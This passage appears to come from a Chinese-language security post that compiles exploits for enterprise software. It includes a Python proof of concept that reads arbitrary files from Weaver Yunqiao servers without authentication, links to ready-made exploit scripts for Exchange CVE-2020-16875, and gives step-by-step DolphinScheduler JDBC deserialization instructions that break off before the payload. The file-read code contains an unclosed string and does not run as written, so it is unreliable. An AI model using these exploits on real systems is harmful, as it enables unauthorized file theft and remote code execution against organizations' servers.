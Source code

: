 8\. 泛微云桥任意文件读取

检测 POC

def poc(u):

    print("\[\*\] Checking %s"%(u))

    uri = "/wxjsapi/saveYZJFile?file

    url = u + uri

    try:

        res = requests.get(url,verify=False)

    except:

        print("\[-\] %s not vulnerabile!"%(u))

        return 

    try:

        data = json.loads(res.content)

        print("\[\*\] %s is vulnerabile!" %(u))

        res = requests.get(u+"/file/fileNoLogin/%s"%(data\['id'\]))

        print(res.text)

    except:

        print("\[-\] %s not vulnerabile!"%(u))

![](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZJdqp1Zh96BCINdMBXZtC9iafKdib0qUcl0RzsICOlJ7tOnxbOuFJzGND63Omru6kicVk21mdqfRMIrQ/640?wx_fmt=png)

9\. 深信服 SSL VPN 远程代码执行漏洞（暂无）

10.Apache DolphinScheduler 远程代码执行漏洞

11.Exchange Server 远程代码执行漏洞

CVE-2020-16875: Exchange Server 远程代码执行漏洞（202009 月度漏洞）

ps 版 POC：https://srcincite.io/pocs/cve-2020-16875.ps1.txt

py 版 POC：https://srcincite.io/pocs/cve-2020-16875.py.txt

12.Apache DolphinScheduler 权限覆盖漏洞 \[CVE-2020-13922\]

它是一个分布式去中心化，易扩展的可视化 DAG(有向无环图) 工作流任务调度系统。利用漏洞: 需要登录权限, \[09/12 态势感知\] 提供一组默认密码。

该漏洞存在于数据源中心未限制添加的 jdbc 连接参数, 从而实现 JDBC 客户端反序列化。1、登录到面板 -> 数据源中心。

![](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZJdqp1Zh96BCINdMBXZtC9iaENttJYmlYXMhMqcOsiaia7vgic4RhX0G2GE62UV5icsn3gShSvMDG0BxWA/640?wx_fmt=png)

2、jdbc 连接参数就是主角, 这里没有限制任意类型的连接串参数。

![](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZJdqp1Zh96BCINdMBXZtC9iaENttJYmlYXMhMqcOsiaia7vgic4RhX0G2GE62UV5icsn3gShSvMDG0BxWA/640?wx_fmt=png)

3、将以下数据添加到 jdbc 连接参数中, 就可以直接触发。
